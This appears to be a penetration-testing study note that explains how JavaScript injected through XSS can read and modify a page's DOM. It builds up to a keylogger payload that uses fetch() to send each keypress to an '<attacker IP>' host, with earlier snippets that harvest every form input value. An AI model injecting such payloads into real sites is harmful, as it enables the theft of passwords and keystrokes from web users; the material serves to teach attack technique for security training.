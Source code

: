 ## Manipulation of JavaScript

JavaScript is a high-level programming language that has become one of the fundamental components of modern web applications. All modern browsers include a JavaScript engine that runs any client-side JavaScript code.

When a browser processes an HTTP response containing HTML, the browser creates a _Document Object Model_ (DOM) tree and renders it.
The DOM includes all forms, inputs, images, etc. on a page.

JavaScript can access and modify the page's DOM, resulting in a more interactive experience for end users. From a vulnerability exploitation perspective, this also means that if we can inject JavaScript, we can access and modify the page's DOM.
With access to the DOM, we can redirect login forms, extract passwords, phish users, and much more.

## Example Function

We will take the example of the following function:

```
function processData(data) {
  data.items.forEach(item => {
    console.log(item)
  });
}

let foo = {
  items: [
    "Hello",
    "Zdravo",
    "Hola"
  ]
}

processData(foo)
```

We start by declaring a function called "processData" that takes an argument  of an array called "data".
The function loops through each value of the key named "items" of the array called "data" (data.items), and logs it onto the console.
Next, an object with a key and it's various values, is stored into the variable "foo".
Finally, the processData function is called, and the variable "foo", is given as the argument.
When we paste the code in our browser's JavaScript terminal, and press enter, the code is executed and the console logs three string outputs.

The question is, why is console.log printing the results to the console?
This is because, console.log is a built-in method within the console API, provided by the browser.
We have access to multiple APIs like so, which we can use to inject JavaScript into the user's browser through a vulnerability.

## Using APIs

We can start of by taking the "Window" API.
This API has properties such as location property and localStorage property, that contains secrets that can be used to exfiltrate secrets.
Another very common method of the Window API, is the alert() method.
This pops up an alert box when the page is loaded onto the browser.

Even though alert() method is the most common method used to identify XSS, the most effective to exploit them is the "Document" API.
The Document API allows us to interface with the DOM, which contains every  part of the page loaded on to the user's browser.
This can be used to create fake phishing pages, exfiltrate cookies, password inputs, include text, create keyloggers, and so on.

We can use the getElementsByTagName() method, which, when given an HTML tag, will return an array of all elements that match that tag.
So, for instance all text boxes for username and password fields are created using the "input" tag.
We can use the following code:

```JavaScript
let inputs = document.getElementsByTagName("input")

for (let input of inputs){
	console.log(input.value)
}
```

We declare a variable inputs, which will grab all "input" tags of the DOM.
It is then passed into a for loop, where the value attribute is extracted.
The value attribute is the text that is entered into the text box.

Another useful method of the Document API is the addEventListener() method.
It accepts an event code (for ex: "keydown" for keypresses) and a function on how to handle the event.

The code can look like following:
```JavaScript
function logKey(event){
	console.log(event.key)
}

document.addEventListener('keydown', logKey)
```

We create a function that will take the event(the key press) as an argument and print the key pressed to the console.

We have found multiple ways to exploit an XSS, however these methods are not very useful, as these only print the result to the victim's console.
To solve this caveat, we will use the "Fetch" API.
The Fetch API allows us to have the user's browser make network requests for remote resources.
This could be for fetching documents, user information, images, and much more.

Fetch doesn't return the data immediately, and instead, it returns a "promise" to complete the execution.
If we need to access the response, we use the "then" method and pass in a function to execute when the response is available.

So the code will be edited to the following:
```JavaScript
function logKey(event){
	fetch("http://<attacker IP>/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

This will make an HTTP request to our Kali machine and include the key pressed.
We can perform the same with other APIs and methods such as the getElementsByTagName() method of the Document API.